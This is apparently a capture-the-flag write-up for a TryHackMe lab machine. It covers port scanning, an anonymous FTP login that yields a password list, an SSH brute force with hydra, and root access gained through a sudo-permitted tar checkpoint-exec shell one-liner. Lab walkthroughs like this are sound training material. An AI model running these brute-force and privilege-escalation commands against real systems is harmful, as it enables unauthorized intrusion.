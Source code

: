 # BountyHunter
```
t3nsh0@KALI:~/htb/smag$ sudo nmap 10.10.146.130 -sC -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-31 21:11 CEST
Nmap scan report for 10.10.146.130
Host is up (0.071s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.10.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.86 seconds
```

Webpage telling us we have to hack this room... I downloaded the picture and tried steghide against it but nothing here.<br>
Nothing else here even after a gobuster scan.

# FTP
It's allowed in anonymous<br>
```
t3nsh0@KALI:~/htb/smag$ ftp 10.10.146.130
Connected to 10.10.146.130.
220 (vsFTPd 3.0.3)
Name (10.10.146.130:t3nsh0): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
locks.txt is a list of password and task has a username inside of it. 
# SSH
Let's brute force ssh !<br>
I used crackmap exec but it didn't work... I've lost a lot of time because of it...<br>
Let's brute force with hydra !<br>

```hydra -l <userame we found> -P locks.txt 10.10.146.130 ssh```<br>

We are connected and we have our user flag !<br>
# ROOT
Before running linpeas let's check sudo -l<br>
```xxxxxx@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for xxxxxx on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
``` 
<br>
There is a privesc with it on gtfobins so it's an easy win :
```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
<br>
Let's run it :<br>
```lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# /bin/bash
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhacker:~/Desktop# ls -l /root/
total 4
-rw-r--r-- 1 root root 19 Jun  7 17:16 root.txt
root@bountyhacker:~/Desktop# 
```
Here we go ! Very easy room but it's still nice to do it. <br>
Thanks [Sevuhl](https://tryhackme.com/p/Sevuhl) !
